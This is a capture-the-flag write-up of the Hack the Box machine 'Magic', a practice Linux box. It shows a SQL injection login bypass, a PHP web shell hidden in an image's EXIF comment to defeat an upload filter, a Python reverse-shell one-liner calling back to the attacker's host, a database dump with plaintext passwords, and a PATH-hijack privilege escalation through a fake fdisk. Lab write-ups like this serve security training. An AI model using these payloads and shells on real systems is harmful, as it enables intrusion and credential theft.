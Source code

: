 +++
author = "Nick"
categories = ["hack the box", "CTF", "medium", "Linux", "sqli", "SQL Injection", "gobuster", "image bypass", "exiftool", "reverse shell", "su", "sysinfo"]
date = 2020-08-22T15:00:00Z
description = ""
draft = false
thumbnail = "/images/2020/05/info-2.png"
slug = "hack-the-box-magic"
summary = "Today we are doing the Hack the Box machine Magic."
tags = ["hack the box", "CTF", "medium", "Linux", "sqli", "SQL Injection", "gobuster", "image bypass", "exiftool", "reverse shell", "su", "sysinfo"]
title = "Hack the Box - Magic"
url = "/hack-the-box-magic"

+++


Welcome back! Today we are doing the Hack the Box machine Magic. Magic is listed as a Medium Linux machine. Let's jump in!

Like every box we do on this blog, we start with our `nmap` scan: `nmap -sC -sV -p- -oA allscan 10.10.10.185`

Here are our results:
```
Nmap scan report for 10.10.10.185
Host is up (0.044s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
|_  256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Magic Portfolio
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 85.14 seconds
```

We don't have much of a choice. It looks like we are going to head over to the web service being hosted to see how to get a foothold. Before we do, we'll start a `gobuster` scan to see what it might find.

Command:
`gobuster dir -u http://10.10.10.185 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php`

We know immediately from checking the source there is some driectory structures under images as well as a `login.php` page. Here are our `gobuster` results.

![](/images/2020/05/image-42.png)

Nothing really useful. So we'll take a peek at the login page. The first thing we try are some basic credentials like admin/admin, magic/magic ect, but none work. We have a few options, we can try to bruteforce our way in with `hydra` or `burpsuite` or we can see if the fields are vulnerable to `sql injections`. So we fire off `sqlmap` against the url. While that runs we test manually as well.

When we try to login as admin and a password of `'` it doesn't give us any error back as normal. So useing this we craft a standard SQL payload:

Payload
`'or''='`

This redirects us to the `upload.php` page.Turn outs that `sqlmap` also found the field injectable.

![](/images/2020/05/image-43.png)

![](/images/2020/05/magic_sql.gif)

Now that we are given an option to upload, we can try and upload something a bit more useful, like maybe a webshell of some type. When we try we are given an error about our file type.

![](/images/2020/05/image-44.png)

When we rename our shell to `shell.php.jpg`, we get another error.

![](/images/2020/05/image-45.png)

[This seems familiar](https://www.exploit-db.com/docs/english/45074-file-upload-restrictions-bypass.pdf). It could be checking `mime` type here. There are a few ways to bypass this. This is a [nice quick reference page](https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass). In this case we'll use the third method of using exiftool to add a comment. 

First we need a base image, I used the image of the minions on the index page from the box itself. Next we need to install `exiftool` since it's not installed by default.

Command:
`apt install exiftool -y`

Once installed we use the commands given before to create our code.

Command:
`exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' con.jpg`
`mv con.jpg con.php.jpg`

Now we upload the file.

![](/images/2020/05/magic_upload.gif)

Once the file is uploaded we navigate to `/images/uploads/` and see if `con.php.jpg` is there.

![](/images/2020/05/image-46.png)

It is indeed there. Now we can leverage the shell we imbeded into the image!

![](/images/2020/05/image-47.png)

This basic shell helps with enumeration but is lacking in functionality. I want to read that db.php5 file but in order to do so we'll need to repeat the process with a better shell, in this case we'll use [Winter Wolf's](https://github.com/WhiteWinterWolf/wwwolf-php-webshell#wwwolfs-php-web-shell) shell. After we repeat the process we are able to read the file and get a password!

![](/images/2020/05/image-48.png)

Unfortunately this password is not the same as the users `SSH` password. It is however an `SQL database` password. We'll need to create a reverse shell to dump this via `mysqldump`. I was able to get a shell [via python](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet):

Command:
`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.50",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

Once we issue the command via our shell, our listener starts up!

![](/images/2020/05/magic_reverseshell.gif)

We then [stabilize our shell](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) so we can dump the database. 

Command:
`mysqldump -u theseus -piamkingtheseus --all-databases > dumpme.sql`

As we parse through the dump, we see some more credentials:

![](/images/2020/05/image-49.png)

We are still unable to use that password for `SSH` due to how `SSH` has been configured. We can however try to `su` to another user and hope one of the two passwords work.

![](/images/2020/05/image-50.png)

We got in! We snag the user.txt flag. Now that we're inside the box, we can start enumerating interally. We'll copy of `linpeas` and take a look at there is on the system. As we sift through the information given, we see some interesting items. In particular our ability to use sysinfo:

![](/images/2020/05/image-51.png)

This looks like a pretty potent path to root, I'm just not sure how. Some googling around didn't really give me anything great. So I copy over `pspy32` and start monitoring processes. When I run `sysinfo` with `pspy` running I see the commands it's actually calling to the system. You could also see this if you `strings` the binary.

![](/images/2020/05/image-53.png)

Now that we know it's calling `fdisk` and in what order we'll create our own `fdisk` that has a reverse shell inside. So we create a new directory in `/tmp` called `tmp3`. Now inside this directory we create a file called `fdisk`. Now change the file permissions to `755`. Inside this file, we'll put the same `python` reverse shell we had from before just on a different port. You can either make the file on your local attackin machine or create it on the target machine. Here are the commands so far:

Commands:
`mkdir /tmp/tmp3`
`vi fdisk`
`chmod +x fdisk`

Now that we have those in place, we need to append a new location to our [PATH variables](https://linuxize.com/post/how-to-set-and-list-environment-variables-in-linux/). We know from before it is this:

![](/images/2020/05/image-54.png)

We also know that the PATH is parsed in order. So we want to add `/tmp/tmp3` to the front of that variables list, like this:

Command:
`export PATH=/tmp/tmp3:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
<l/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin`

This way, `sysinfo` will look in our `/tmp/tmp3` location for fdisk BEFORE all other locations.

Now we'll spin up our `netcat` listener on our chosen port.

With all the parts in place, we call `sysinfo`.

![](/images/2020/05/magic_root.gif)

There we have it, a root shell! We snag the root.txt flag. Box completed!

Think about sending me some respect over on HTB if you enjoyed the write-up! Here's my [profile](https://www.hackthebox.eu/home/users/profile/95635).



